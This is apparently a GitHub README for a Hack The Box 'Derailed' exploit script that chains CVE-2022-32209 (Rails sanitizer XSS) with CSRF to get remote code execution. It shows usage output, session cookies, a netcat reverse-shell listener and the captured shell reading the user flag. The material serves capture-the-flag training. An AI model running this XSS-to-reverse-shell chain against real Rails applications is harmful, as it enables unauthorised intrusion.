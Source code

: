 # Derailed User Shell Script

This script allows you to obtain a user shell on the Derailed machine in Hack The Box using CVE-2022-32209 (Ruby + XSS). Please make sure you understand the exploit before using this script. It is recommended to use a proxy to monitor the network traffic and understand what is happening.

## Prerequisites

- Python 3.x
- Install the required dependencies using the following command:

   ```shell
   pip install -r requirements.txt

## Example Usage:
```bash
┌──(root㉿emsec)-[/home/emsec/Downloads]
└─# python3 Derailed_user.py
Attacker IP: 10.10.14.? # Attacker Machine
Port: 1445 # port
You will receive a reverse shell on port 1445

User registration successful!
User login successful!

simple_rails_session user 1 (XSS for administrator contents):
 4SMUflN34W4YOU6KV0DZRuXAK2lrz7TqGivXt6egzVhqhYwVHLqY5N5yOToy9VbExaAxjNkVk1B9Mb%2Bfw%2B%2FDN%2BoPKZRcaR2Y%2B1mBnVbIG9IcdAcgwlXHWFIZNDwTjm80MHjUcSTg5zwGcth37pQsL7FbGr8P%2BO5nZrerGfqoQ7%2BozlgdBBRjKbUUbvEbbDGuvSYGPhFvMVcBVnIBXE4tSUAC%2F2xzxNSv%2Brca3OV7zisHwmjzK6z9hZs98xzVL1uCv53ffeAQVqB9a3pW8v8OhrPbRCWFhG08Nqu9p3imRpDY0QYQ3Q7OZdFo55oYW93t7A%3D%3D--tNkVbe3r5CLo6QEs--xUl%2FvlOAS0FMbz%2FDcLnebg%3D%3D 

Create clipnote successful!
Report clipnote successful!
Waiting for token admin and report_log ID (approximately 1 minute)

authenticity_token: r5mn_rki1QYOuOsn7s54f6xlI_s6AYPA9YhEi3LUSntq6zeCAMBVfpiFTdPqr3ToY_vI_p_aAAQBwHHOlNH2qg
report_log: report_21_07_2023.log


User registration_ successful!
User login successful!

simple_rails_session user 2 (CSRF RCE):
 rg9x4iOtdPQE7F6tCfD2iuV6RqreJASBJnQf9Dfb6g9Y8WQru6kqt50rQn%2F3YOm%2FJS7xBurbXKjYk7WpC56fCZFbe1yf2lgcXXuXh0XuDz%2F3bvN%2B6FJNSkYolxdr7%2BwejyfV%2FbC83qbdOaHt9J%2FswQmlnZgN0RImxIa69am0ohpa0gZcfuibMq5741qcLrFxp1j8AHrfdFtncoR4IOX%2FguqHIksz9u3NcA9oRMAohZTtbaQS3ilH8TVYd2lUSi5XVO0I4nlZUnXZMVs2x9JCI0zPXaNyMWMmb0z0oiTr8%2FLK5LrYMCnttSlDgEBI7pA5TQ%3D%3D--4rYw3NnEyH13eqqw--8%2BgIZFzghbq7DDItt2nyog%3D%3D 

Create clipnote successful!
Report clipnote successful!


You will get a shell on port 1445 after one minute(Make sure you have already set it up).
```

```bash
──(root㉿emsec)-[/home/emsec/Downloads]
└─# nc -lnvp 1445
listening on [any] 1445 ...
connect to [10.10.14.?] from (UNKNOWN) [10.10.11.190] 60766
sh: 0: can't access tty; job control turned off
$ ls
app
babel.config.js
bin
config
config.ru
$ id
uid=1000(rails) gid=1000(rails) groups=1000(rails),100(users),113(ssh)
$ ls
user.txt
$ cat user.txt
71e4e6c4a7d83c6eaa9f6e22279907fa
$ 
```


### Reference of exploit CVE-2022-32209
XSS exploit for Rails::Html::Sanitizer [https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1](https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1)
